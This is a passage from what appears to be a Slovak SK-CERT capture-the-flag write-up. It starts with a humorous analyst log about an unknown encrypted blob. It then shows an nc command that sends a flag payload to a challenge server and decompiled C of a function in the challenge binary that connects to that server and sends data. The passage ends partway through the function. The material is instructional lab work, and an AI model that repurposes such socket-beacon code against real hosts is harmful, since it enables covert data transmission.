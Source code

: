 # Zadanie

EN: Analyst Log – 12:47 PM: The blob showed up after SystemUpdate did its thing. Just a data. No extension. No metadata. No readme. No hope. The problem? There. Is. No. Key. I’ve tried dictionary attacks, rainbow tables, entropy analysis, even feeding it to a very confused intern. Nothing… At one point, I shouted my Wi-Fi password at the screen out of raw frustration. Didn’t help, but I felt better for two seconds. I thought I saw a familiar pattern in the entropy graph. Turns out it was just a coffee stain on my monitor. This isn’t just encryption. This is a test of character. And Greg? Greg is not winning.

SK: Záznam analytika – 12:47 : Blob sa objavil po tom, čo si SystemUpdate „odrobil svoje“. Len dáta. Bez prípony. Bez metadát. Bez readme. Bez nádeje. Problém? Nie je. Žiadny. Kľúč. Skúšal som dictionary útoky, rainbow tabulky, analýzu entropie, dokonca som to podsunul zmätenému stážistovi. Nič… V jednom momente som zo zúfalstva začal kričať svoje Wi-Fi heslo na obrazovku. Nepomohlo. Ale na dve sekundy som sa cítil lepšie. Myslel som si, že som v grafe entropie spoznal známy vzor. Ukázalo sa, že je to len fľak od kávy na monitore. Toto nie je len šifrovanie. Toto je test osobnosti. A Greg? Greg prehráva.

## Riešenie

Z predošlej úlohy viem, že potrebujem odoslať payload na `195.168.112.4` na port `7052` s obsahom `SK-CERT{g3771ng_p4yl04d}`

Urobím tak pomocou príkazu

```bash
echo -n 'SK-CERT{g3771ng_p4yl04d}' | nc 195.168.112.4 7052 > blob_raw.bin
```

Z predošlej úlohy, z funckie

```c
void FUN_00101f50(void)

{
  char *__buf;
  int __fd;
  int iVar1;
  long lVar2;
  size_t __n;
  ssize_t sVar3;
  sockaddr local_28;

  __fd = socket(2,1,0);
  if (-1 < __fd) {
    local_28.sa_family = 2;
    local_28.sa_data[0] = 0x1b;
    local_28.sa_data[1] = 0x8c;
    iVar1 = inet_pton(2,"195.168.112.4",local_28.sa_data + 2);
    if ((0 < iVar1) && (iVar1 = connect(__fd,&local_28,16), __buf = DAT_00105260, -1 < iVar1)) {
      lVar2 = 0;
      do {
        if ((&DAT_00105220)[lVar2] != (&DAT_001050f0)[lVar2]) {
          return;
        }
        lVar2 = lVar2 + 1;
      } while (lVar2 != 24);
      __n = strlen(DAT_00105260);
      sVar3 = send(__fd,__buf,__n,0);
      if (-1 < sVar3) {
        FUN_00101e70();
        close(__fd);
        return;
      }
    }
```